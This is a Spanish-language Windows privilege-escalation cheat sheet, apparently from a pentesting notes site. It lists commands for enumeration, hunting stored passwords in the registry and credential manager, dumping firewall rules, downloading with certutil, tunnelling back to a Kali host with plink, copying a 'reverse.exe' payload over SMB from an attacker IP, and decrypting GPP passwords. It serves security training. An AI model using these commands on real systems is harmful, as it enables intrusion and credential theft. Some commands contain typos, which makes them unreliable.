 ### Enumeración del sistema[](#enumeracion-del-sistema)

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios[](#enumeracion-de-usuarios)

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red[](#enumeracion-de-red)
```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```
### Búsqueda de archivos[](#busqueda-de-archivos)
```python
#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs
```
### Búsqueda de credenciales[](#busqueda-de-credenciales)
```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus[](#enumeracion-de-antivirus)
```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas[](#enumeracion-con-herramientas-automaticas)

[https://github.com/fluidicon.png)

Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng

GitHub





](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)

[

![](https://github.com/fluidicon.png)

GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation

GitHub





](https://github.com/bitsadmin/wesng)

### 

Funciones básicas[](#funciones-basicas)

#### 

Descarga de archivos[](#descarga-de-archivos)

certutil.exe -urlcache -f <URL> <OUTPUT_FILE>

#### 

Comprobación de permisos sobre un archivo[](#comprobacion-de-permisos-sobre-un-archivo)

accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>

#### 

Ejecución de un programa como otro usuario en Powershell[](#ejecucion-de-un-programa-como-otro-usuario-en-powershell)

powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"

#### 

Windows Port Forwarding[](#windows-port-forwarding)

plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>

#### 

Transferencia de archivos mediante smb[](#transferencia-de-archivos-mediante-smb)

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows

#### 

Desencriptado GPP[](#desencriptado-gpp)

gpp-decrypt "<hash>"